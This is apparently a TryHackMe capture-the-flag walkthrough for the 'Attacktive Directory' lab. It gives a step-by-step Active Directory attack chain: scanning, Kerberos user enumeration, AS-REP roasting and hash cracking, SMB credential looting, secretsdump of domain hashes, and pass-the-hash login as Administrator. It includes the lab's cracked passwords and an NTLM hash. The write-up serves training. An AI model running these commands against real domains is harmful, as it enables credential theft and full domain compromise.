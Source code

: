 # Attacktive Directory

**Room Link:** [https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)



## Walkthrough

### Setup

#### Installing Impacket

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

#### Installing Bloodhound and Neo4j

```
apt install bloodhound neo4j
```

#### Installing kerbrute

```
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute/
make all
```

### username and password custom lists for this machine

```
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

### Welcome to Attacktive Directory

**Initial Scan**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### netbios-ssn port 139 & microsoft-ds port 445

```
enum4linux $VICTIM
```

The NetBIOS-Domain Name of the machine

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Enumerating Users via Kerberos

```
kerbrute/dist/kerbrute_linux_386 userenum --dc=$VICTIM -d=spookysec.local. userlist.txt
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Abusing Kerberos

**validusers.txt**

```
james
svc-admin
robin
darkstar
administrator
backup
paradox
```

svc-admin allows us to get a ticket without a password. The hash type is Kerberos 5 etype 23 AS-REP.

```
python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile validusers.txt -dc-ip $VICTIM spookysec.local/
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Cracking the hash we can see the password is management2005

```
hashcat -m18200 hash.txt passwordlist.txt
hashcat -m18200 hash.txt passwordlist.txt --show
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### Back to the Basics

```
smbclient -L $VICTIM -U "svc-admin"
Enter WORKGROUP\svc-admin's password: management2005
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\$VICTIM\\backup -U "svc-admin"
smb: \> dir
smb: \> get backup_credentials.txt 
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Its a base64 encoded username and password. backup@spookysec.local:backup2517860

```
cat backup_credentials.txt
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### Elevating Privileges within the Domain

```
python3 /usr/local/bin/secretsdump.py  spookysec.local/backup:backup2517860@$VICTIM > allhashes.txt
cat allhashes.txt | awk -F : '{print $1 ":" $3}' | sort | uniq
```



### Flag Submission PaneLogin as Administrator&#x20;

```
evil-winrm -i $VICTIM -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
